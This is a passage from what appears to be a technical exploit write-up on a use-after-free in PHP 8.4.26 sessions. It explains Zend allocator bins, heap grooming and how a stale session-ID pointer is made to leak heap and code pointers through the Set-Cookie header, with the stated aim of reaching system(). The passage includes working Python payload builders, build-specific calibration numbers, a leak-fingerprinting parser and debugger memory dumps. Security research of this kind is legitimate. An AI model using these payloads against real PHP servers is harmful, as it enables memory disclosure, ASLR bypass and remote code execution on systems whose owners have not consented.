PHP’s stale pointer still thinks it’s looking at valid internal data. But when it goes to build the cookie, it treats the attacker’s fake bytes as a legitimate zend_string and trusts the corrupted len field. So instead of reading 32 bytes for a normal session ID, it reads 256 bytes scooping up whatever sits in neighbouring memory: internal pointers, heap metadata, pieces of other structures. All of it gets dumped straight into the Set-Cookie header and sent back to the attacker.
That's the leak channel. Now let's see how the attacker positions the forged data to land exactly where it needs to be (the fun part).
Heap Grooming in Practice: How the Forged Data Lands Exactly Where we want
How does the positioning of the forged data happen in real practice?? First... it's build-specific. So what I'm about to show you will only work on PHP 8.4.26 Alpine CLI. But stay till the end, because we'll see together why it's build-specific and how you can find the right numbers for other builds.
Let's look at the Python code for Request #2:
# 1. Session ID "a", not NUL. We want the EXISTING stale session,
# not a new one. The stale pointer is already set from Request #1.
fields = [mp_field(bnd, b"PHPSESSID", b"a"),
mp_field(bnd, b"PHP_SESSION_UPLOAD_PROGRESS", b"pwn")]
# 2. 51 padding fields reclaim freed heap memory
# Keys 1000-1050, each value is exactly 48 bytes
for i in range(51):
value = (f"v{i:04d}".encode() + b"x" * 48)[:48]
fields.append(mp_field(bnd, str(1000 + i).encode(), value))
# 3. Repeated key 1050 changes the allocation pattern
fields.append(mp_field(bnd, b"1050", b"Z" * 128))
# 4. The forged value overwrites the stale zend_string header
# 79 bytes crafted so that:
# offset 0x10: length field = 256 (little-endian u64)
# offset 0x18: first byte = 'L' (0x4C)
forged = bytearray(b"A" * 79)
struct.pack_into("<Q", forged, 0x10, 256) # len = 256 <--- this is the len field we talked about
forged[0x18] = ord("L")
fields.append(mp_field(bnd, b"1999", bytes(forged)))At this point you may have many questions.... why 51 exactly?? Why do we send a repeated key with a bigger value?? Why not just send our forged struct with the same size as the stale pointer and let the allocator drop it right there??
Yaah nooo... it's a little more complicated than that (by little I mean a LOT).
OK so here I want to explain something that is quite complicated and difficult, but I just don't want to do what most of the resources on the internet do , they say those numbers are just calibrations for a specific PHP build, take them as a magic number. No. i will try to show you as an example on how those calibrations change the memory to achieve what we want in PHP 8.4.26 Alpine CLI, and then you'll understand the logic behind every number.
How I Investigated This
before we dive in let me show you how I actually watched all of this (staring at memory until it makes sense or you lose your mind).
I ran gdbserver inside a Docker container with the target PHP build . On the host, Ghidra's Debugger connects via GDB remote to inspect memory so I could set breakpoints at zend_mm_alloc, zend_mm_free, php_session_save_current_state..... , and watch allocations and deallocations happen.
I also used GDB in batch mode inside the container to automatically dump 8 KB of heap memory around PS(id) at four critical moments: baseline, after padding, after the resize, and after the forged payload lands. Each dump covers two full pages centered on the stale pointer, so you can see exactly what's happening in the neighborhood.
Since showing all of this through Ghidra screenshots would take lot of images, I used AI and those dumps to build an interactive visualization website instead. It shows you the full memory chunk around PS(id) at each step, you can click through the stages and see exactly which bytes changed, which slots were freed, and where the forged data landed.
All the raw heap dumps are available in the dumps/ folder in the GitHub repo. You can load them into Ghidra or any hex editor at the PS(id) base address shown in the visualization (it changes between runs due to ASLR, but the offsets are the same).
check the heap_memory_map.html file inside the github repo
OK now let's get into the actual heap internals.
Bins and Freelists
To understand why 51, we first need to understand how the Zend memory allocator organizes freed memory.
The allocator doesn't just throw all freed memory into one messy pile. It organizes freed chunks into different linked lists (called bins or freelists) strictly based on their size. The allocator has a bin for 8-byte chunks, a bin for 16-byte chunks, a bin for 32-byte chunks and so on ,around 30 bins in total, each for a specific size class.
Allocator's Internal Freelists (Bins):
Bin 0 ( 8B) → NULL
Bin 1 ( 16B) → NULL
Bin 2 ( 24B) → NULL
Bin 3 ( 32B) → [ 0xAABB0040 ] → [ 0xAABB0060 ] → [ 0xAABB0080 ] →NULL
...
Bin 7 ( 64B) → [ 0xAABB0100 ] → NULL
Bin 8 ( 80B) → NULL
...
Bin 10 (112B) → NULL
...
Bin 12 (160B) → NULL
...
Bin 29 (3072B) → NULLSo when you want to allocate 48 bytes, the allocator checks the 48-byte bin and says "You need 48 bytes? Perfect, I have a 48-byte chunk right here." And it gets allocated in the place of the old freed chunk. When you free a 48-byte chunk, it goes back to that bin and waits to be claimed by another allocation.
OK?? Think about our stale pointer. It was freed right?? So that memory is sitting inside the corresponding bin of its size. It was a zend_string holding a session ID of about 32 characters. As we saw in the zend_string struct above, every string has a 24-byte header (gc + hash + len) plus the string content plus a NUL terminator:
zend_string size = 24 + strlen + 1
For the stale pointer with ~32 chars: 24 + 32 + 1 = 57 bytes → rounded up to 64B → Bin 7So the stale pointer's freed memory is sitting in bin 7's freelist (64-byte slots).

> OOM trigger. GDB showing_zend_bailout() with PS(id) = 0x7f08e1874000, len = 32, session ID "ef96dda6055f931c8bed60759585442a" : the pointer is still valid, sitting at chunk 0x7f08e1800000, page 116.
The Wilderness
Now what happens when a bin is empty for a specific size? Let's say we call emalloc(80) but there's no 80-byte chunk available in bin 8. The allocator goes and grabs more space from the Wilderness.
What is the Wilderness? In the beginning, the allocator grabs a huge memory chunk for the entire heap in PHP, that's a 2 MiB (2,097,152 bytes) aligned block. But it doesn't use it all at once. It divides the chunk into 512 pages of 4,096 bytes each. Only a few pages are used initially, the rest sit untouched at the end of the chunk as the Wilderness. Just some free space, not needed yet.
When a bin's freelist is empty, the allocator carves a fresh page from the Wilderness and slices it into slots of that bin's size. Pages are claimed sequentially, one by one, advancing the "frontier" from page 1 toward page 511.
Here's the full picture:
2 MiB Chunk (512 pages)
┌──────────────────────────────────────────────────────────┐
│ Page 0 : Chunk header + metadata │
│ Page 1 : Bin 3 slots (32B × 128 per page) │
│ Page 2 : Bin 8 slots (80B × 51 per page) │
│ Page 3 : Bin 8 slots (continued) │
│ ... ... more pages claimed by various bins ... │
│ Page 116 : ← STALE POINTER WAS HERE │
│ ... │
│ Page N : ═══ WILDERNESS FRONTIER ═══ │
│ Page N+1 : Wilderness (untouched) │
│ ... │
│ Page 511 : Wilderness (untouched) │
| Note: N in the start is lower than 116 i will explain |
| this later |
└──────────────────────────────────────────────────────────┘Why Direct Replacement Doesn't Work
"Why can't we just send the forged data with the exact same size as the stale pointer? It would go into bin 7 (64 bytes), the allocator would pop the stale pointer's old slot from the freelist, and our forged data lands right there. Done"
Here's the problem. When Request #1 crashes (OOM → bailout → longjmp()), PHP calls zend_mm_shutdown() which frees the entire chunk. Everything gets reset — all bins are emptied, all freelists cleared, the Wilderness frontier goes back to the beginning. It's like the whole 2 MiB block is wiped clean.

> Phase 2: GDB showingzend_mm_shutdown() PS(id) still = 0x7f08e1874000, memory still contains the session ID bytes, but after this function returns the entire heap is freed and PS(id) becomes a dangling pointer.
But here's what doesn't change: the physical memory at those addresses still exists, and the OS gives the same 2 MiB block right back to Request #2. The stale pointer is still pointing at the same address deep inside the chunk, at page 116 (in my GDB run, that was address 0x7f08e1874000).
So when Request #2 starts, the allocator is fresh. All bins start from scratch, claiming new pages from the Wilderness starting at the bottom. If we just send one 64-byte allocation, bin 7 grabs first available pages for example it may be 8 or 9, slices it into 64-byte slots, and gives us a slot there. That's nowhere near page 116 ... and as we can see in the screenshot our pointer is on page 116.
You see?? This is exactly why we can't send the forged data directly, the memory area our allocator is using hasn't even reached that place yet.
And... our forged data needs to end up in a bin 8 slot to land at PS(id). We will see exactly how later.
What the 51 Fields Actually Do: Page Consumption
So what do we do?? We need to consume pages until the frontier advances past page 116. That's what the 51 padding fields are really doing.
None of the 51 padding fields go into bin 7. Let me show you:
Each of the 51 padding fields allocates TWO zend_strings:
KEY ("1000"..."1050") = 4 character string
└→ zend_string: 24 + 4 + 1 = 29 bytes → rounded to 32B → BIN 3
VALUE (48 bytes of data)
└→ zend_string: 24 + 48 + 1 = 73 bytes → rounded to 80B → BIN 8Bin 3 and bin 8. NOT bin 7. The keys go into bin 3 (32B), the values go into bin 8 (80B). They're not directly replacing the stale pointer in bin 7 at all! What they're actually doing is consuming pages across multiple bins, advancing the Wilderness frontier forward through the chunk.
So why exactly 51? Because bin 8 keeps consuming pages from the Wilderness as we send more fields. Each bin 8 page holds 51 slots (4096 ÷ 80 = 51, with 16 bytes wasted at the end). As bin 8's freelist runs dry, the allocator carves fresh pages advancing the frontier deeper and deeper into the chunk. Combined with the bin 3 key allocations, plus all the internal PHP allocations (class tables, function tables, built in strings, content disposition headers, all consuming their own pages before and alongside our fields), the frontier creeps forward page by page.
At the same time, the $_POST HashTable backing array is growing alongside all of this:
Entries HashTable Capacity What Happens
─────────────────────────────────────────────────────────────
0 → 8 8 slots Initial arData: 320B allocated
9 → 16 16 slots Resize! New arData: 640B (old 320B freed)
17 → 32 32 slots Resize! New arData: 1280B (old 640B freed)
33 → 64 64 slots Resize! New arData: 2560B (old 1280B freed)
51 still 64 slots No resize needed at this count (51/64)Each resize allocates a bigger arData array and frees the old one, each landing in its own bin, eating even more Wilderness pages on top of the bin 3 and bin 8 allocations. It all adds up: keys in bin 3, values in bin 8, HashTable arData arrays in their own bins, internal PHP allocations... all pushing the frontier forward page after page.
51 padding fields is exactly the number that pushes bin 8's page frontier to page 116 (the page where the stale pointer lives).
Look at what's sitting at stale pointer position after all 51 fields are parsed:
After 51 padding fields memory at PS(id) (page 116):
PS(id)+0x00: 01 00 00 00 16 00 00 00 ← gc (refcount=1, type=string)
PS(id)+0x08: 00 00 00 00 00 00 00 00 ← hash (not computed yet)
PS(id)+0x10: 30 00 00 00 00 00 00 00 ← len = 0x30 = 48 bytes
PS(id)+0x18: 76 30 30 35 30 78 78 78 ← val[] = "v0050xxx..."
PS(id)+0x20: 78 78 78 78 78 78 78 78 ← "xxxxxxxx"
PS(id)+0x28: 78 78 78 78 78 78 78 78 ← "xxxxxxxx"
PS(id)+0x30: 78 78 78 78 78 78 78 78 ← "xxxxxxxx"See that?? That's the value of key "1050" the LAST padding field , its zend_string starts right at PS(id), slot 0 on page 116. The gc header is at PS(id)+0x00, and val[] begins at PS(id)+0x18. Bin 8 kept claiming page after page from the Wilderness as we sent more and more fields, advancing the frontier deeper into the chunk. By the time we hit the 51st field, bin 8 reached page 116, and the last value landed at exactly this address.
This isn't a coincidence, this is the entire point of the 51 fields. We needed the frontier to advance far enough to put a bin 8 slot right where the stale pointer is. And now that it's here, we're going to free it.
One more thing you'll notice if you look at the raw dumps, each padding value actually appears twice in memory one right next to the other one. Why?? Because PHP's multipart parser creates multiple heap allocations for each field value. There's a temporary buffer where the raw bytes are first read from the HTTP body, and then safe_php_register_variable() calls ZVAL_STRINGL() which allocates a brand new zend_string by copying the bytes for the $_POST entry. For our 48 byte padding values, that zend_string copy is 24+48+1=73 bytes rounded to 80 bytes, which is bin 8. The temporary buffer gets freed but ZendMM doesn't zero freed memory, so the bytes stick around. That's why you see duplicate copies of "v0045", "v0046", etc. in the dumps.

The exact nature of that temporary buffer and what bin it falls into will become VERY important later when we try to understand how the forged data reaches PS(id). For now, just remember: each field value gets copied more than once during parsing, and the zend_string copy (bin 8, 80B) is the one that matters for page consumption.
The Repeated Key 1050: Freeing the Slot at PS(id)
After the 51 padding fields, the exploit sends key "1050" again but this time with a much larger value: 128 bytes of 'Z'. Since "1050" already exists in the $_POST array, PHP updates the existing entry rather than adding a new one. The old value gets freed, and a new, bigger value is allocated:
Old value of key 1050: 48 bytes → zend_string: 73B → Bin 8 (80B) → FREED
New value (128 × 'Z'): 128 bytes → zend_string: 153B → Bin 12 (160B) → ALLOCATEDNow here's what makes this step so critical, the old value being freed isn't just some random bin 8 slot somewhere in the heap. It's the one sitting at PS(id). That exact "v0050xxx..." we just saw in the memory dump. When PHP frees it, the allocator stomps the first 8 bytes of the freed slot with a freelist pointer linking it to the next free slot in bin 8's freelist. Everything past those first 8 bytes survives untouched. You can see the aftermath in the dump:
After resize — memory at PS(id) (page 116):
PS(id)+0x00: a0 3f e7 47 fe 7e 00 00 ← FREELIST POINTER (gc stomped!)
PS(id)+0x08: 00 00 00 00 00 00 00 00 ← old hash untouched
PS(id)+0x10: 30 00 00 00 00 00 00 00 ← old len=48 untouched
PS(id)+0x18: 76 30 30 35 30 78 78 78 ← old val[] "v0050xxx" untouchedthe page stays as bin 8. The slot at PS(id) goes back onto the bin 8 freelist, waiting for the next bin 8 allocation to pop it. The page itself doesn't change its bin assignment just because one slot was freed. This is important because the forged data will land in this exact same bin 8 slot.
The new 128 byte Z value goes into bin 12 (160B), which goes to another page nowhere near page 116. That's why we don't see where the Z bytes went... you won't find them anywhere in the dumps. Not a single 0x5A in the entire 8 KB window around PS(id). The Z data landed on a completely different page. Its only job was to free the slot at PS(id) by replacing the old value.
The slot is freed. The trap is set.
The Forged Value Lands (And the Mystery That Almost Broke my mind)
Finally, field "1999" arrives with the 79 byte forged payload. And this is where I genuinely started losing my mind.
See, the math doesn't add up at first. The forged value is 79 bytes. If you calculate the zend_string size for the $_POST copy: 24+79+1 = 104 bytes, rounded up = 104 bytes = bin 10 (112B). Not bin 8. The smart_string buffer that the parser uses to accumulate bytes?? That's 256 bytes = bin 15. Also not bin 8. So where does the bin 8 allocation come from?? The place where PS(id) is pointing is a bin 8 page, made bin 8 by our own field 1050. And no matter how hard I tried tracking our forged data through the code, it always ended up on bin 10 on some completely different page nowhere near PS(id).
Then I noticed something. If you look at the raw memory dumps, every field value appears twice in memory. Once in the smart_string buffer (bin 15) and once as the zend_string copy in $_POST (bin 8 for padding, bin 10 for forged). So I thought... maybe there's a THIRD copy somewhere?? Maybe somewhere in the process PHP puts the data in a bin 8 allocation before it reaches the final zend_string copy on bin 10. Some intermediate step that I couldn't see.
And it was impossible to spot in the release build. I tried everything:
_emallocbreakpoints: release builds inlineemalloc()into the caller's machine code, so there's no function call for GDB to break on. I traced 464_emalloccalls and none returned PS(id)'s addressmemcpybreakpoints: the compiler inlines small memcpy operations as directmovinstructions. My breakpoint caught the PADDING value copy but completely missed the forged value copy- Hardware watchpoints: I set a watchpoint on PS(id)+0x08 waiting for
0x4141414141414141to appear. It fired once, confirmed the write happened insiderfc1867_post_handler, but the backtrace was just one frame deep with no source lines (release build, no debug symbols) - Conditional watchpoints on len=256: timed out every time because the watchpoint fires on every single write to that address during the entire request
Nothing worked. I could SEE the forged data in the dumps, I could PROVE it was there, but I couldn't figure out WHAT put it there.
So I built a debug version of PHP 8.4.26 from source with --enable-debug. Debug builds keep emalloc() as a real function call, keep memcpy() as a real function call, and most importantly have full debug symbols so backtraces show you the actual file and line number. The catch is that debug builds add overhead to every allocation (guard bytes, canaries, tracking headers) which changes the sizes and bin assignments, so the exploit doesn't groom the same way and the forged data doesn't actually reach PS(id). But that's fine because I didn't need the exploit to work, I just needed to READ THE SOURCE CODE that the debug build gave me access to.
And there it was:
multipart_buffer_read_body() in main/rfc1867.c line 632:
static char *multipart_buffer_read_body(multipart_buffer *self, size_t *len)
{
char buf[FILLUNIT], *out=NULL;
size_t total_bytes=0, read_bytes=0;
while((read_bytes = multipart_buffer_read(self, buf, sizeof(buf), NULL))) {
out = erealloc(out, total_bytes + read_bytes + 1); // <── THIS IS IT
memcpy(out + total_bytes, buf, read_bytes); // <── AND THIS
total_bytes += read_bytes;
}
if (out) {
out[total_bytes] = '\0';
}
*len = total_bytes;
return out;
}THIS is the function that reads each field's raw value from the HTTP body. Not smart_string. Not ZVAL_STRINGL. Just a plain erealloc loop that builds a char* buffer. And for our 79 byte forged value, the math is beautiful:
erealloc(NULL, 0 + 79 + 1) = emalloc(80)
└── 80 bytes = EXACTLY bin 879 bytes of forged data + 1 null terminator = 80 bytes = bin 8. EXACTLY bin 8. Not bin 10, not bin 15. The raw body reader allocates a temporary buffer that is the EXACT size of a bin 8 slot.
its finally solved Here's the full sequence of what happens when field "1999" is processed:
multipart_buffer_read_body()reads the 79 forged bytes from the HTTP bodyerealloc(NULL, 80)→emalloc(80)→ pops the freed slot at PS(id) from the bin 8 freelistmemcpy(out, buf, 79)copies all 79 forged bytes into PS(id), includinglen=256at +0x10 andval[0]='L'at +0x18- The function returns
value = PS(id)back torfc1867_post_handler safe_php_register_variable(param, value, ...)at line 887 copies the bytes into azend_stringfor$_POST(bin 10, different page, we don't care about this one)efree(value)at line 910 frees the bin 8 slot at PS(id), freelist stomps +0x00 and +0x48- The forged bytes at +0x08 through +0x47 survive
And the reason this was invisible in the release build?? In optimized builds, the compiler inlines erealloc(NULL, 80) into direct bin 8 freelist pointer manipulation (a few mov instructions, no function call) and inlines memcpy(out, buf, 79) into a series of rep movsb or register moves. There is literally no function boundary for GDB to break on. The allocation and the copy are just anonymous instructions buried in the middle of a 1588 line disassembly of rfc1867_post_handler. That's why the _emalloc breakpoint missed it (never called as a function), the memcpy breakpoint missed it (never called as a function), and only the hardware watchpoint caught the RESULT but couldn't tell us WHERE in the code it came from.
So in the end The forged data reaches PS(id) not through smart_string, not through ZVAL_STRINGL, but through a temporary erealloc buffer in the raw multipart body reader. 79+1 = 80 = bin 8. Perfect fit.
Here's what matters: the 79 forged bytes overwrite the entire bin 8 slot at PS(id). Remember that PS(id) is a zend_string*, so PHP interprets the memory at PS(id) as a zend_string struct:
Forged data overwrites the zend_string at PS(id):
PS(id)
│
▼
┌──────────────────┬──────────────────┬───────────┬─────────────────────┐
│ gc (8B) │ hash (8B) │ len (8B) │ val[] │
│ +0x00 │ +0x08 │ +0x10 │ +0x18 │
└──────────────────┴──────────────────┴─────┬─────┴──────┬──────────────┘
│ forged[0x00] │ forged[0x08] │forged[0x10]│ forged[0x18] │
│ = A*8 │ = A*8 │ = 256 │ = 'L' + A*7 │
└──────────────────┴──────────────────┴────────────┴────────────────────┘Our forged[0x10] = 256 lands right at the len field. Our forged[0x18] = 'L' lands right at val[0]. The forged bytes are designed so the offsets within the 79 byte payload match the zend_string struct layout.
Then the slot gets freed. When ZendMM frees a bin 8 slot (80 bytes), it writes two things:
- A freelist pointer at the first 8 bytes (PS(id)+0x00)
- An XOR validation value at the last 8 bytes (PS(id)+0x48, which is offset 72 = 80 minus 8)

Everything between those two zones survives. and we can check that in the dumps:
After forging : memory at PS(id):
PS(id)+0x00: a0 3f 87 e1 08 7f 00 00 ← FREELIST POINTER (0x00007f08e1873fa0)
PS(id)+0x08: 41 41 41 41 41 41 41 41 ← forged[0x08] = "AAAAAAAA" — survived
PS(id)+0x10: 00 01 00 00 00 00 00 00 ← forged[0x10] = 256 (LE) — SURVIVED
PS(id)+0x18: 4c 41 41 41 41 41 41 41 ← forged[0x18] = 'L' + "AAAAAAA" — SURVIVED
...
PS(id)+0x48: 45 a1 fb ea a3 b1 8c a2 ← XOR VALIDATION (0xa28cb1a3eafba145)
*(Note on the bytes: If you look at the debugger pointers in parentheses and wonder why our byte map looks backward. x86_64 processors use little-endian architecture, meaning the least significant byte is stored at the lowest memory address. We are mapping the memory exactly as it sits in RAM because this is exactly how you have to pack the bytes in your exploit payload.)*The first 8 bytes and last 8 bytes got stomped but who cares?? Our critical data is at forged[0x10] (the len field) and forged[0x18] (the first byte of val[]). Both are safely in the middle of the 80 byte slot, well past both danger zones. They survived untouched.
Now remember PS(id) is a zend_string*. When PHP serializes the session, it reads:
ZSTR_LEN(PS(id))=(uint64_t)(PS(id) + 0x10)= 256 instead of the original 32ZSTR_VAL(PS(id))=(char*)(PS(id) + 0x18)= "LAAA..."
So PHP happily reads 256 bytes starting from val[], scooping up neighboring heap data pointers, struct headers, everything and sends it all back in the Set-Cookie header.
THAT is the heap leak.
to understand better(simplified)
Imagine the memory as 512 floors. The stale pointer is parked on floor 116. After the building is "reset" (all floors unmarked), different bins start claiming floors from the bottom:
- (bin 3, 32B) take some floors
- (bin 8, 80B) take other floors
- (HashTable arData arrays) take even more floors
You keep sending bin 8 until they claim floor 116 and one parks right at the stale pointer's spot. Then the resize frees its slot. The floor stays marked as "bin 8 parking" but that specific spot is now empty and back on the waiting list. Then during the processing of the forged field, multipart_buffer_read_body() needs a temporary buffer of exactly 80 bytes (79 forged bytes + 1 null terminator), which is exactly bin 8 sized. It grabs that same spot from the waiting list, and our forged data is put there, then freed again when efree(value) is called. The spot goes back to the waiting list with a "next in line" tag stamped over the first 8 bytes, but the forged data you wrote in the middle of the rest of the spot is still sitting there untouched. When the stale pointer comes back to check its old spot?? It reads your forged data.
Here's the full lifecycle of the page at PS(id). The page changes bin assignment once (from 7 to 8 during the shutdown/startup cycle), and then stays bin 8 for the rest of the exploit:
Step 0: Page = Bin 7 (64B) original session ID zend_string lives here
↓
↓ OOM → zend_mm_shutdown() ,entire chunk freed, all bins reset
↓
Step 1: Page = Bin 8 (80B) consumer grooming: padding value "v0050xxx..." lands at PS(id)
↓
↓ resize frees the padding value → slot returns to bin 8 freelist
↓
Step 2: Page = Bin 8 (80B) , slot at PS(id) is freed, old data persists at +0x08+
↓
↓ multipart_buffer_read_body() does erealloc(NULL, 79+1) = emalloc(80) = bin 8!
↓ pops PS(id) from freelist, memcpy writes 79 forged bytes, efree puts it back
↓
Step 3: Page = Bin 8 (80B) ,slot freed again: freelist ptr stomps +0x00 and +0x48
but forged[0x08:0x48] survives, including len=256 and val[0]='L'Back to the Swiss Cheese
Remember the "Swiss Cheese" heap grooming from earlier? I gave it that name so it sticks in your head until I bring it back. Well, here we are. Now that you understand pages, bins, the Wilderness frontier, and how the allocator actually moves through memory, let's see what those 50 padding fields (p0000 to p0049) actually do.
I ran the exploit with and without those padding fields and dumped 8 KB of memory centered on PS(id):
┌─────────────────────────────────────────────────────────────────────────┐
│ WITH PADDING (50 fields) │
│─────────────────────────────────────────────────────────────────────────│
│ │
│ Stage 0 OOM Bailout: │
│ PS(id) = 0x7fa699a73000 │
│ page 115, bin 7 (64B slots), slot 0 │
│ len = 32, val = "86df57f9eb2ab3ff802ac3836eaedcfa" │
│ → Valid session ID, sitting in a fresh bin 7 Wilderness page. │
│ │
│ Stage 1 After zend_mm_shutdown: │
│ Same address, page now "free-or-unknown" │
│ → Heap is freed. Memory still holds old data. Pointer is dangling. │
│ │
│ Stage 2 Consumer grooming applied: │
│ len = 256, val[0] = 'L' (0x4C) │
│ page 115, bin 8 (80B) — SAME page, reclaimed by bin 8 │
│ → The forged zend_string landed EXACTLY at PS(id). Exploit succeeds. │
│ → Cookie: 256 bytes of raw heap memory leaked. │
│ │
├─────────────────────────────────────────────────────────────────────────┤
│ WITHOUT PADDING (0 fields) │
│─────────────────────────────────────────────────────────────────────────│
│ │
│ Stage 0 OOM Bailout: │
│ PS(id) = 0x7fbcc1868000 │
│ page 104, bin 7 (64B slots), slot 0 │
│ len = 32, val = "0b636a920199064b0a5b0dd44a67b335" │
│ → Session ID on a recycled freelist page, not Wilderness. │
│ │
│ Stage 1 After zend_mm_shutdown: │
│ Same. Heap freed. │
│ │
│ Stage 2 Consumer grooming applied: │
│ len = 0xFFFFFFFFFFFFFFFF (garbage) │
│ val[0] = 0xFF (garbage) │
│ page 104, bin 20 (640B) reclaimed by wrong bin │
│ → Consumer's grooming landed on COMPLETELY DIFFERENT pages. │
│ → Nothing reached PS(id). No cookie. Exploit fails. │
│ │
└─────────────────────────────────────────────────────────────────────────┘See the difference? Without the padding, PS(id) lands on page 104 right from the start. When we try to leak data from that unpredictable spot, we end up reading 256 bytes of useless garbage instead of targetable memory, and the exploit fails.
By executing those 50 padding fields, we intentionally push the starting location of the PS(id) pointer into a specific zone where our leak will capture useful pointers.
This padding achieves two mandatory goals:
- It pushes
PS(id)into a known, predictable location so our consumer can reliably target and overwrite it. - It places
PS(id)in a neighborhood where reading 256 bytes past it actually hits the valuable chunk pointers we need to bypass ASLR.
> Why page 115 and not page 116? > If you noticed I mentioned page 116 earlier, don't panic. The exact starting page shifts slightly depending on PHP's startup allocations (like loaded extensions or interned strings). In this specific GDB run, it landed on 115; on another day with slightly different startup conditions, it might be 116. > The exploit still works flawlessly because it relies on relative distance. The producer and consumer run in the same process with the exact same startup state. If the startup allocations push the producer's PS(id) back by one page, the consumer's heap grooming is pushed back by the exact same amount. Because both sides shift together, the relative layout remains identical, and the forged payload lands right on target.
But wait... that's TWO separate leaks, not one
Before we move on, there is something incredibly important I need to clarify so it doesn't bite you later. When I said the attacker needs to leak both a heap pointer and a code pointer, I made it sound like they just scoop up both from a single request.
In theory, yes, a massive over-read could contain both. But in practice? Getting the allocator to perfectly position both a heap chunk base and a PHP binary code pointer right next to our stale PS(id) at the exact same time is complicated.
What makes it even more complicated is how the exploit verifies that the leaked memory isn't just random garbage. Remember, when we read past the end of the string, we just get a huge dump of raw bytes the script doesn't inherently know what any of it is.
To trust a heap leak, we need consensus. The exploit sweeps a 256-byte chunk of memory and requires at least four different heap pointers to agree on the exact same Zend chunk base. One pointer could be a coincidence, two could be a mistake, but if four separate pointers all mathematically point to the same 2 MiB chunk base, we know it's real.
But when it comes to the code pointer, we aren't looking for a dense cluster of pointers. We are hunting for one very specific needle in the haystack: the pDestructor field of an array struct. Specifically, we want it to point to a core PHP function called zval_ptr_dtor. We need this exact function because all the hardcoded offsets we use to find our final target (system()) are calculated relative to it and also it is used to redirect execution. To verify it isn't garbage, we don't need multiple pointers; we just check it against a specific signature that we studied on the php build (the lower 21 bits). We will see exactly how this works in the next section as usual.
Because these two goals require completely different heap layouts,one a big region filled with multiple heap pointers versus a smaller, surgical strike on a specific pDestructor struct ,the actual exploit runs two completely separate leak stages, each with its own OOM producer and its own pipelined consumers.
Stage 1-2 (heap): OOM producer → consumers → leaked 256-byte cookie → heap chunk base
Stage 3 (code): OOM producer → consumers → leaked 16-byte cookie → zval_ptr_dtor addressEach stage poisons a fresh worker (or reuses the same one if you're lucky), and each one uses a different OOM shape to leave the heap in a different state:
# Heap leak producer shape:
OOMShape(depth=57, count=950, field_count=50, field_value_size=1)
# Code leak producer shape:
OOMShape(depth=58, count=935, field_count=65, field_value_size=39)See the differences? The code leak uses deeper nesting (58 vs 57), fewer nested fields (935 vs 950), more padding fields (65 vs 50), and bigger padding values (39 bytes vs 1 byte). Every single one of those numbers changes how much memory gets consumed, which pages end up allocated, and most importantly where the stale pointer ends up sitting relative to what the consumer can reach, but in the end the logic is the same.
Real practice: leaking the code pointer (Stage 3)
We already went through the heap leak consumer in extreme detail. Now let's look at the code leak consumer, which has a completely different strategy (the way we force the system to create this leak for us is brilliant):
def code_reclaim() -> bytes:
bnd = COOKIE_BOUNDARY
fields = [mp_field(bnd, b"PHPSESSID", b"a"),
mp_field(bnd, b"PHP_SESSION_UPLOAD_PROGRESS", b"pwn")]
# 73 simple string fields, each 24 bytes of "P"s
for i in range(73):
fields.append(mp_field(bnd, f"s{i:04d}".encode(), b"P" * 24))
# 910 more fields, most with a single element,
# but field 69 creates a 16-element array
for i in range(983 - 73):
for j in range(16 if i == 69 else 1):
fields.append(mp_field(bnd, f"a{i:04d}[{j}]".encode(), b"x" * 16))
return close_multipart(fields, bnd)Look at how different this is from the heap consumer. No 51 padding fields, no repeated key trick, no 79-byte forged payload. Instead we have:
73 string fields (s0000 through s0072), each with 24 bytes of data. These consume pages to push the frontier forward, same idea as the 51 fields before but with different sizes:
KEY ("s0000"..."s0072") = 5-char string
└→ zend_string: 24 + 5 + 1 = 30B → rounded to 32B → BIN 3
VALUE (24 bytes of 'P')
└→ zend_string: 24 + 24 + 1 = 49B → rounded to 56B → BIN 6Different bin from the heap consumer! These values go into bin 6 (56B) instead of bin 8 (80B), which means they consume pages at a different rate and land on different pages.
910 array fields (a0000 through a0909), each with a value of 16 bytes. But here's the magic: field number 69 doesn't create a single entry... it creates a 16-element array:
a0069[0]=xxxx, a0069[1]=xxxx, a0069[2]=xxxx, ... a0069[15]=xxxxWhy is that one field special?? Because when PHP creates a 16-element array, it allocates a zend_array (HashTable) struct to manage those 16 entries. And do you remember what a zend_array is? It is a struct that has the exact pDestructor field we are looking for! So we didn't just go digging into random memory hoping to find one ,we forced the system to create one for us.
Now we need to trigger the leak and get that pointer back. At this point, if you understood the previous sections, you might be waiting to see us inject some forged data with a fabricated len field to trigger the over-read, right?
But look at the code... there is no forged string. The trick we are pulling here is even smarter and honestly worth admiring,it explains why the expected cookie size is only 16 bytes. Doesn't that seem so small? We are literally just leaking the immediate neighbor of the PS(id) pointer. So hear me out:
The zend_array we obliged the system to make holds the target pointer we want, right? But what else does it have? Let's look at the C code for it:
struct _zend_array {
zend_refcounted_h gc; /* +0x00 */
union { ... } u; /* +0x08 (flags and mask) */
Bucket *arData; /* +0x10 */
uint32_t nNumUsed; /* +0x18 */
uint32_t nNumOfElements; /* +0x1C */
uint32_t nTableSize; /* +0x20 <--- Look at this! */
uint32_t nInternalPointer;
zend_long nNextFreeElement; /* +0x28 */
dtor_func_t pDestructor; /* +0x30 <--- Our target pointer */
};You see the nTableSize? That is a number that tells PHP the capacity of the array. Since we forced it to make a 16-element array, nTableSize is exactly 16.
So what is happening here is that all those 900+ fields we are sending are meticulously designed to manipulate the creation of this zend_array so it lands exactly where the stale PS(id) pointer is looking, but in a perfect, misaligned way. We position it so that the nTableSize field lands exactly where the len field of the zend_string would have been!
When PHP reads that pointer, it looks for the string length, finds the nTableSize (which is 16), and says, "Ah, this string is 16 bytes long." It then happily reads the next 16 bytes of memory... which scoops up the pDestructor sitting right behind it.
Mind-blowing, right? Basically, we trick PHP into creating a struct containing our target pointer, and then literally position it in a way where the struct itself is used to forge its own length and leak itself.
Fingerprinting: how do we know we got the right pointer?
OK so the attacker gets a 16-byte cookie back. How do they know it's actually zval_ptr_dtor (pDestructor) and not just random garbage?
def parse_code_leak(cookie: bytes) -> int | None:
if len(cookie) != 16 or struct.unpack_from("<Q", cookie)[0] != 16:
return None
value = struct.unpack_from("<Q", cookie, 8)[0]
if CODE_MIN <= value < CODE_MAX and value & CHUNK_MASK == DTOR_LOW21:
return value
return NoneThree checks:
- Cookie must be exactly 16 bytes. normal PHPSESSID is 32 bytes. Getting exactly 16 proves that our misalignment worked and nTableSize successfully overwrote the len variable.
